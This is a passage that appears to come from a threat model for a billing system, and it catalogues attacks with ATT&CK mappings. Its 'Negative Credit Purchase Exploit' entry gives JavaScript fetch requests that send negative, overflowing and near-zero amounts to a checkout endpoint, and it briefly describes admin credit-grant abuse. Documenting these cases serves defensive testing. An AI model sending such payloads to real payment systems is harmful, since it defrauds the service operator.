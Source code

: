 
### Attack 5.2: Negative Credit Purchase Exploit
**Attack Vector:** Authenticated  
**Complexity:** Low  
**Impact:** High  
**MITRE ATT&CK:** T1078 (Valid Accounts)

#### Description
If input validation is insufficient, attacker may attempt to purchase negative credits to receive refunds.

#### Attack Steps
```javascript
// Attempt 1: Negative amount
fetch('/billing/checkout', {
  method: 'POST',
  headers: {
    'Authorization': `Bearer ${token}`,
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    amount: -100  // Request $100 refund instead of purchase
  })
});

// Attempt 2: Integer overflow
fetch('/billing/checkout', {
  method: 'POST',
  body: JSON.stringify({
    amount: 2147483647 + 1  // Overflow to negative
  })
});

// Attempt 3: Float precision exploit
fetch('/billing/checkout', {
  method: 'POST',
  body: JSON.stringify({
    amount: 0.000000001  // Near-zero payment for maximum credits
  })
});
```

---

### Attack 5.3: Admin Credit Grant Manipulation
**Attack Vector:** Authenticated Admin (Compromised)  
**Complexity:** Low  
**Impact:** High  
**MITRE ATT&CK:** T1098 (Account Manipulation)

#### Description
Compromised admin account grants unlimited credits to attacker's accounts.
